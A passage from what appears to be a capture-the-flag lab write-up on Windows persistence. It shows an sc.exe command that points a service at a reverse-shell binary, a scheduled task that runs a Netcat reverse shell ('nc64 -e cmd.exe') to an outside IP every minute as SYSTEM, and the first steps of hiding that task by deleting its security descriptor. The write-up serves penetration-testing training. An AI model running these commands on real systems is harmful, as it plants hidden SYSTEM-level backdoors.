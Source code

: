 ```powershell
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396760872/1cd7630a-6652-4e28-b8ff-3c73b28c5055.png align="center")

Check the service once more to confirm that the parameters have been correctly configured:

```powershell
sc.exe qc THMservice3
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396784286/f917e217-b054-46ab-b598-3a8dfb53cea3.png align="center")

As previously, set up the Netcat listener to capture the shell:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396801970/1c7b02fc-15e4-4435-bd13-f88760c2a07f.png align="center")

Grab `flag8.exe` from here.

### Abusing Scheduled Tasks

We can create a scheduled task that executes a reverse shell every minute. Keep in mind that we wouldn't want this to occur as frequently as one minute; however, for the sake of time, we will do it for this room.

```powershell
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "C:\tools\nc64 -e cmd.exe 10.13.28.215 1337" /ru SYSTEM
```

* `-sc` = schedule
    
* `-mo` = minute
    
* `-ru` = run
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396868503/0b611c63-0327-4b41-84c3-7276ba232356.png align="center")

Let's verify that our task has been scheduled properly:

```powershell
schtasks /query /tn thm-taskbackdoor
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396892876/cbd51e4b-c304-4a4a-8ce5-c3a89c84a77a.png align="center")

After scheduling the task to run every minute, we receive a callback from our listener:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396912495/b1df5b00-c16b-418c-a903-cb324c493cd5.png align="center")

This is excellent, but it can be detected rather effortlessly. Let's conceal the task by removing its `Security Descriptor (SD)`. An `SD` is an `Access Control List (ACL)` that determines which users have access to the scheduled task. If a user isn't assigned to the `ACL`, they won't be able to view the task. We will need to use `PsExec` to modify the system registry and delete the `SD`.

```powershell
C:\tools\pstools\PsExec64.exe -s -i regedit
```
